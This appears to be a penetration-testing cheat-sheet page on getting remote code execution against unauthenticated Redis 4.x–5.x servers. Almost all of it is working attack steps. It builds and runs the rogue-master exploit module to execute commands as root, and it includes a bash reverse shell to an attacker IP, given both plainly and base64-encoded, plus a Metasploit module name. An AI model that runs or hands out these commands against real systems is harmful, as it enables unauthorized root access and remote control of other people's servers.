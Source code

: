 ```yaml
---
description: Redis 4x-5x RCE
---
```


# Redis RCE

6379/tcp open redis Redis key-value store 5.0.9

redis-cli -h 192.168.1.2 No need password :)

[https://github.com/vulhub/redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)

```
$ git clone https://github.com/vulhub/redis-rogue-getshell.git
$ cd redis-rogue-getshell
$ cd RedisModulesSDK
$ make
$ cd ..

$ python3 redis-master.py -r 192.168.1.2 -p 6379 -L 192.168.1.1 -P 80 -f RedisModulesSDK/exp.so -c "id"

euid=0(root) gid=0(root) groups=0(root)
```

### Reverse shell

```
/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1 - Base64 Encoded

$ python3 redis-master.py -r 192.168.1.2 -p 6379 -L 192.168.1.1 -P 80 -f RedisModulesSDK/exp.so -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xLzgwIDA+JjE= | base64 -d > /tmp/shell.sh"

$ python3 redis-master.py -r 192.168.1.2 -p 6379 -L 192.168.1.1 -P 80 -f RedisModulesSDK/exp.so -c "bash -p /tmp/shell.sh"
```

**msf5 > use linux/redis/redis\_replication\_cmd\_exec**
